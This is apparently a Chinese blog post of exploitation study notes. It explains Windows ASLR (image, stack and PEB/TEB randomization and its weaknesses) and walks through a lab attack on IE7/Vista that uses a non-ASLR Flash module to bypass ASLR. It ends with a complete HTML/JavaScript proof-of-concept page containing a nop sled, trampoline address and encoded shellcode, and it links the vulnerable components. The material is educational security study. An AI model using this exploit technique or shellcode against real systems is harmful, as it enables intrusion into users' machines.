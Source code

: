 ```yaml
---
title: 漏洞利用学习笔记-017-ASLR简介
description: ASLR技术的介绍和简单攻击思路
date: 2020-11-24 21:12:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 内存地址布局随机化
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-017-aslr简介/)

## ASLR技术简介

> 纵观前面介绍的所有漏洞利用方法都有着一个共同的特征：都需要确定一个明确的跳转地址。无论是JMP ESP等通用跳板指令还是Ret2Libc使用的各指令，我们都要先确定这条指令的入口点。所谓惹不起躲得起，微软的ASLR(Address Space Layout Randomization)技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode定位的一种保护机制
>
> 实际上ASLR的概念在Windows XP时代就已经提出来了，只不过XP上面的ASLR功能很有限，只是对PEB和TEB进行了简单的随机化处理，而对于模块的加载基址没有进行随机化处理，直到Windows Vista出现后，ASLR才真正开始发挥作用
>
> 与SafeSEH类似ASLR的实现也需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的

- 支持ASLR的程序在它的PE头中会设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识来说明其支持ASLR。微软从Visual Studio 2005 SP1开始加入了`/dynamicbase`链接选项来帮我们完成这个任务，我们只需要在编译程序的时候启用`/dynmicbase`链接选项，编译好的程序就支持ASLR了

### 映像随机化

- 映像随机化是在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会变化
- 可能是出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\MoveImages`的键值来设定映像随机化的工作模式
  - 设置为`0`时映像随机化将禁用
  - 设置为`−1`时强制对可随机化的映像进行处理，无论是否设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识
  - 设置为其他值时为正常工作模式，只对具有随机化处理标识的映像进行处理
  - 如果注册表中不存在`MoveImages`，大家可以手工建立名称为`MoveImages`，类型为`DWORD`的值，并根据需要设置它的值

### 堆栈随机化

- 这项措施是在程序运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的，也就是说同一个程序任意两次运行时的堆栈基址都是不同的，进而各变量在内存中的位置也就是不确定的
- 将以下程序在VS2008中编译，在XP和Vista上分别运行两次，得到如下图的结果

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](Windows%20Vista.png)
![Windows XP](Windows%20XP.png)

- 可以看出，Vista上堆地址相去甚远，而XP上完全相同

### PEB和TEB的随机化

- 获取当前进程的TEB和PEB很简单，TEB存放在`FS:0`和`FS:[0x18]`处，PEB存放在TEB偏移`0x30`的位置，可以通过如下代码来获取当前进程的TEB和PEB

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- 在Vista上测试运行，结果如图

![PEB/TEB-random-Vista](PEB-TEB-random-Vista.png)

- 可以看出，效果非常差劲，PEB地址只随机化了一个字节，而且还是非常有规律，TEB基本没变过

### ASLR的缺陷

- 不难看出，ASLR随机化映像的时候，虽然模块的加载基址改变了，但是各个模块的入口点的低位两个字节是不会改变的，举例：原基址：`0x00401234`，随机化后基址变为：`0x67291234`，因此可以以此攻击它

## 攻击未启用ASLR的模块

### 准备工作

> 实验环境：Windows Vista SP0，IE7，Adobe Flash Player 9.0.124

- 虽然书上要求使用9.0.262版本，但是实在是找不到，就以9.0.124来替代了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- 存在漏洞的OCX控件在之前的实验中已经编译了一个了，因此就使用那个了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx)，此控件ctrl class object id：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 步骤

- 重启系统查看ASLR模块启用情况

![ASLR未启用情况](ASLR%20not%20enabled%20status.png)

- 实验控件未启用GS
- 通过IE7加载POC页面和Flash9k.ocx
- 函数test存在栈溢出漏洞，目标是覆盖函数的 返回地址
- 因为Flash9k.ocx未启用ASLR因此加载基址固定，可以在里面搜寻合适的跳板指令跳转到shellcode
- IE7的DEP是关闭的，因此不考虑DEP的影响
- 因为通过覆盖函数返回地址实现攻击，因此最佳的跳板指令是JMP ESP
- `0x301D606B`也是`JMP ESP`，执行后将会跳转到字符串的头部，但是问题是`6B 60 1D 30`四个字节正好构成一句汇编指令`imul esp,dword ptr ds:[eax+0x1D],0x30`，它将会把后两个操作数相乘，随后放到第一个操作数中，因此需要保持`[eax+0x1D]`的值是正确的，而目前eax并未指向有效地址，因此需要修复eax
- 很可惜，没有找到合适的修复eax的指令，换地址
- `0x303911D3`也是`JMP ESP`，但它组成的汇编代码将会同时读取EC和EAX的内容，因此这两个寄存器都需要修复，不可行，换指令
- `JMP ESP`没有，改用`JMP ESI`，地址`0x3000DCD2`中包含0，直接排除，地址`0x302420C3`最后一个字节是retn，无法使用，排除，地址`0x3028EE6E`汇编代码将直接引起异常，排除，此指令也没有合适的了，因此寻找其它合适指令
- 位于地址`0x300942F2`的`CALL ESP`貌似正合适，它也会将esp增加8个字节正好避开了垃圾数据
- 以下是改变以后的shellcode

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- 如图，重启系统，shellcode运行正常，这意味着攻击ASLR成功

![shellcode运行成功](shellcode%20run%20successfully.png)
